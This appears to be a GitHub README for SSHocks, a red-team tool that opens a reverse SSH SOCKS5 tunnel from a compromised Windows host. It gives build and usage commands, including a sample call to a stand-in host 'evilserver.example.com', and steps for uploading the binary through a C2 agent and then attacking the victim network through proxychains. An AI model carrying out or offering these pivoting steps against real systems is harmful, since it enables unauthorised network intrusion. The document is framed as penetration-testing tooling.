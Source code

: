 <h1>SSHocks v. 1.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. This project can be published via Visual Studio 2022 as a single file.

Example: *dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Path\to\keyfile\id_ed25519 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate an ed25519 keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks DOES NOT support RSA keys, only ed25519.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff. **(At this time, SSHocks cannot be assembly loaded. I'm working on fixing that. Any assistance is appreciated!)**

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
   
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

6. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
